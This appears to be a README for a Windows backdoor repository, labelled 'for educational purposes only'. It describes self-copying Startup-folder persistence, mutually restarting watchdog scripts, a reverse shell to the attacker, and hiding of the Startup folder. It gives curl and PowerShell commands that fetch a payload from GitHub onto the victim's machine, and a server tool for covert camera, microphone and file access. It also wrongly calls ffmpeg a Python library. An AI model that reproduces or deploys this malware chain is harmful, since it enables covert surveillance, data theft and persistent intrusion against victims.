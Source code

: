 The following files are for educational purposes only.

First, you download the file batmobile.bat on the client-side. If it doesn’t exist in the Startup folder, it will copy itself there and restart the computer. Afterward, it checks if the file shackmobile.ps1 exists in the Startup folder. If not, it will write the content to a file in the Startup folder, save it as shackmobile.ps1, and restart the computer. Then, it checks if the file monitor.bat exists in the Startup folder, and if not, it will write the content to a file in the Startup folder, save it as monitor.bat, and restart the computer.

If the files batmobile.bat, shackmobile.ps1, and monitor.bat are already present in the Startup folder, the file batmobile.bat will execute them in a hidden window.

*Batmobile.bat during execution:*

Runs the files monitor.bat and shackmobile.ps1 in a hidden window and monitors if their windows are closed or killed. If so, it will restart them.

*Monitor.bat during execution:*

Checks if the file batmobile.bat is running. If it’s killed or its window is closed, it will restart it.

*Shackmobile.ps1 during execution:*

Performs a reverse shell to the attacker's IP address and port specified in the code. Additionally, it checks if someone tries to open the Startup folder, and if so, it closes it immediately.

-----------------------------------

After communication is established between the attacker and the victim, we want to enable the ability to open the victim's camera, open the victim's microphone, upload files easily to the victim’s computer, and even download files from the victim’s computer.

Therefore, we will download the file maverick.bat to the victim's computer using the following command:

*CMD:*

bash
curl -L -o maverick.bat https://raw.githubusercontent.com/glitch422/Windows-BackDoor/main/Victem/maverick.bat


*Powershell:*

powershell
Invoke-WebRequest -Url "https://raw.githubusercontent.com/glitch422/Windows-BackDoor/main/Victem/maverick.bat" -OutFile "maverick.bat"


*Maverick.bat during execution:*
The file checks if it is located in the Startup folder, and if not, it copies itself there and restarts the computer.

If it is indeed found in the Startup folder, it will begin performing the following actions:

*Step 1:* It checks if python3 is installed on the computer. If not, it checks if a file named python.bat exists in the Startup folder. If the file does not exist, it will write the content into a file in the Startup folder, save it as python.bat, and run the file to download the latest version of Python to the victim’s computer. If python3 is installed, the code proceeds to the next check.

*Step 2:* The code checks if ffmpeg (a Python library) is installed, which provides tools for media processing. If ffmpeg is not installed on the computer, the code checks if ffmpeg.bat exists in the Startup folder. If the file does not exist, it will write the content into a file in the Startup folder, save it as ffmpeg.bat, and run the file to install ffmpeg on the computer.

*Note:* Without python3 and ffmpeg, the script smile.ps1 cannot run.

Additionally, on the server-side (the attacker’s machine), python3 and ffmpeg need to be installed in order to run topgun.py.

*Step 3:* The code checks if the file smile.ps1 exists in the Startup folder. If not, it writes the content into a file and saves it as smile.ps1. Afterward, it runs the file.

On the attacker's side, you will need to install ffmpeg and python3 and set up topgun.py.

*Topgun.py:*
- It will give you the option to open the victim’s camera and view its feed.
- It will give you the option to open the victim’s microphone and hear the audio.
- It allows you to upload files to the victim’s computer from your own.
- It allows you to download files from the victim’s computer to your own.
